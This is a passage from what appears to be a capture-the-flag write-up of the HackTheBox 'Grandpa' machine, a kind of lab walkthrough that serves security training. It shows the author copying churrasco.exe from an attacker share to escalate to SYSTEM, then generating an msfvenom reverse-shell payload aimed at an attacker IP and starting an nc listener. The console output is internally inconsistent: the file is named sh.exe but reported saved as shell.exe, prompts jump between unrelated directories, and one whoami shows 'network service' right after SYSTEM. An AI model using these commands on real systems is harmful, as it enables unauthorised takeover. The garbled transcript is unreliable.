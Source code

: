 Now, I can transfer the file to the target machine:

```bash
C:\temp>copy \\10.10.17.28\kali\churrasco.exe
copy \\10.10.17.28\kali\churrasco.exe
        1 file(s) copied.

C:\temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\temp

08/29/2021  09:49 PM    <DIR>          .
08/29/2021  09:49 PM    <DIR>          ..
08/17/2021  10:09 AM            31,232 churrasco.exe
               1 File(s)         31,232 bytes
               2 Dir(s)  18,091,016,192 bytes free
```

You just need to execute the exe. To execute commands, I use the `-d` flag (to start cmd.exe):

```bash
C:\temp>churrasco.exe -d "cmd.exe"
churrasco.exe -d "cmd.exe"
nt authority\system

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
C:\temp>whoami
whoami
C:\ADFS>ipconfig
ipconfig
nt authority\network service
```

The shell seems pretty buggy, so I create an msfvenom payload to get another reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/grandpa]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.17.28 lport=5555 -f exe -o sh.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
       
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/grandpa]
└─$ nc -lvnp 5555      
listening on [any] 5555 ...
```
